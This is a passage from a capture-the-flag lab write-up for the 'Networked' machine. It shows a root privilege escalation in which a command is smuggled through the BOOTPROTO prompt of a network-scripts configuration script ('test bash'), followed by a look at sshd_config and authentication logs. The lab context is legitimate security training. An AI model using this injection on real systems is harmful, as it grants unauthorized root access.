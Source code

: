 ```console
root
root
root
root
root
root
root
root
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
[guly@networked ~]$ 
```

When the scripts prompts for `BOOTPROTO`, the text after the space actually gets interpreted as a command! Let's call `bash` to access a root shell.
```console
[REDACTED]

interface BOOTPROTO:
test bash
[root@networked network-scripts]#
```
There we have it.

### We are now `root`!

The ***root flag*** is at `/root/root.txt`.

### Done!

---

### Others

Since I got root, I wanted to know why I was not able to SSH as `apache`. 

The reason why I wasn't able to authenticate SSH as `apache` is because the `PermitRootLogin` option is disabled in `/etc/ssh/sshd_config`. Only users with the uid >= 1000 is allowed to authenticate using SSH.

In `/etc/ssh/sshd_config`, the `PermitRootLogin` options is being commented out with a `#`:
```
[REDACTED]

#PermitRootLogin yes

[REDACTED]
```

Now let's look into the authentication log files.

For `apache` in `/var/log/secure`:
```
[REDACTED]

Nov 14 09:51:14 networked.htb sshd[39152]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.10.14.10  user=apache
Nov 14 09:51:14 networked.htb sshd[39152]: pam_succeed_if(sshd:auth): requirement "uid >= 1000" not met by user "apache"

[REDACTED]
```
Whereas for `guly` in `/var/log/secure`:
```
[REDACTED]

```